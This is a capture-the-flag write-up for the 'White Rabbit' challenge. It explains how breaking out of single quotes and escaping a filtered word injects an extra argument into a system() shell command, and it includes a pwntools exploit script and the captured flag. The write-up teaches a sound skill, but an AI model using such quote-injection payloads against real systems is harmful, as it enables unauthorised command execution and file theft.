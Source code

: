 ## b01lers bootcamp: White Rabbit [pwn]
![](rabbit_description.png)

#### The challenge was a terminal escape, basically the constraints of the challenge are that we cannot input anything that contains the string 'flag' and our input is executed by system once with the following command `[ -f our_input] && cat 'our_input' || echo File does not exist`.

#### Although I have little experience with sandbox/terminal/python jail escape types of challenges, this one was pretty simple. Since our input is wrapped around single apostrophes, we can just escape these and provide an escaped flag.txt string so that the program does not detect the exact flag string. The exploit, which I tested locally first will result to `cat '' f\lag.txt ''` which prints out the flag for us.

```python
from pwn import *

#:
p = remote('chal.ctf.b01lers.com', 1013)
#p = process('./whiterabbit')
print(p.recv())

p.sendline("'f\lag.txt'")
print(p.recv())

#: flag{Th3_BuNNy_wabbit_l3d_y0u_h3r3_4_a_reason}
```
